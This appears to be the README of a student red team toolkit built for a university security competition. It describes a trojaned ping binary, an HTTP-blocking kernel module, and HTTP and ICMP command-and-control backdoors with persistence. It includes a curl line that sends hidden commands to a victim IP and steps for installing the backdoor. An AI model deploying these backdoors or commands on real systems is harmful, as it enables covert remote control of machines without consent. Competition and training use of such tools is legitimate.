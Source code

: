 # Red Team Tools

Each of the tools below was developed by Jack Dunfey for the Internal Lockdown competition at the University at Buffalo.

Each of their folders has an individual README with more information 

## Malicious Ping

This is a C program that can be compiled to replace the ping binary on a system.
It will seem successful for any properly formed IP address or valid DNS name.

<!-- Add images here -->

## HTTP Takedown Kernel Module

This is a kernel module that when installed will block HTTP requests for X minutes every Y minutes. X and Y can be set using macros at the top of the file.

## HTTP C2

Creates a service called processd that runs a program that listens for commands hidden in the headers of an HTTP request

Example Attack:
`curl $VICTIM_IP -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36" -H "Cookie: $CMD" -H "Upgrade-Insecure-Requests: $RETURN_PORT" > /dev/null 2>&1`

## ICMP C2

Creates a service called icmp that "replaces" the kernels responses to icmp echo requests with its own. It will respect the contents of the `net.ipv4.icmp_echo_ignore_all`.

If IP packet has a ttl of 45, 65, 31, or 17, the service will execute the payload and the response will be the output of the command.

<!-- TODO: 
- Should make the code timeout and send decoy response to avoid suspicion -->

Multithreading and restart on failure added for persistence.

For victim:
git clone then run `sudo ./install.sh` from within icmp-c2 directory
Once installed, source directory can be deleted 

For attacker:
run `python3 send-command.py ls -l`, can replace with any command

To force a reply even if ignore echo rule is turned on, use the `-f` flag as `argv[1]`